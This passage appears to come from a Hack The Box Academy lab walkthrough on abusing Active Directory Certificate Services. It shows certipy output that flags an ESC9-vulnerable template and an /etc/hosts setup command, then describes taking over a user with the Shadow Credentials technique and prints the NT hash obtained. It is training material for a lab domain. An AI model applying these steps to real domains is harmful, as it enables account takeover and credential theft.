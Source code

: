 ```shell-session
                                          ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Domain Users
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Administrator
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
    [!] Vulnerabilities
      ESC9                              : 'LAB.LOCAL\\Domain Users' can enroll and template has no security extension
```

Before abusing `ESC9` and using the `Shadow Credentials` technique, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to takeover the `user2` user with `Shadow Credentials` (which is possible due to the user `blwasp` having `FullControl` over `user2`, allowing `certipy` to request the TGT for `user2` and `Un-PAC-the-hash` within it), students need to use the `shadow` command of `certipy` along with the `auto` positional argument, specifying `user2` for the `-account` option; students will attain the NT hash `ee22ddf0f8a66db4217050e6a948f9d6` for the `user2` user:

Code: shell
